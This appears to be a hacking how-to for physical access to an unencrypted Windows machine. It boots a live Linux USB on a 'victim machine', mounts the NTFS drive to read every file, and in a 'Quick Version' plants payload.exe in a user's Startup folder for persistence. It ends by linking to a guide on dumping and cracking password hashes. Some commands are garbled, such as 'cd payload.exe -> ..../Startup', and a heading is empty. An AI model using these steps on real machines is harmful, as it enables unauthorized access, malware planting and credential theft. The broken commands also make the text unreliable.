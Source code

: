 # Physical access to machine

So if you have physical access to a machine that is not encrypted it is really trivial to gain access to the hard-drive and all files on it.

This is how you do it

## Create linux-usb

Just follow this guide for ubuntu  
[http://www.ubuntu.com/download/desktop/create-a-usb-stick-on-ubuntu](http://www.ubuntu.com/download/desktop/create-a-usb-stick-on-ubuntu)

## Boot into live-usb on victim machine

If the machine doesn't automatically detect the usb you might have to enter into the bios. This can usually be done by pressing F12 or F1 on boot. Bios looks different from machine to machine. But you need to just choose to boot from the USB-device.

## Mount disk

Now you have booted into the live-usb, now we need to mount the hard-drive to the usb-linux-filesystem.  
First we want to find out what partitions we have:

```
sudo su
fdisk -l
```

This will give you a list of partitions. They will look something like this

```
/dev/sda1
/dev/sda2
```

Identify from the list the partition you want to mount.

Here we create a space for where we want to mount the partition.

```
mkdir /media/windows
```

```
mount -t ntfs /dev/sda1 /media/windows
```

`-t`means type, and refers to the filesystem-type. And we choose ntfs which is the windows-filesystem.

Now you can access all the files from the harddrive in `/media/windows`

## Umount the disk

Notice that is is `umount` and not unmount.

```
umount /media/windows
```

## Quick Version

```
F12
mkdir /mnt/windows
ntfs-3g /dev/sda1 /mnt/windows -o force
cd /mnt/windows/windows
cd /users/[*]/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup
cd payload.exe -> ..../Startup

location of sploit
lib/live/mount/medium/tools/payload.exe
```

## 

## Dump the hashes

[https://prakharprasad.com/windows-password-cracking-using-john-the-ripper/](https://prakharprasad.com/windows-password-cracking-using-john-the-ripper/)

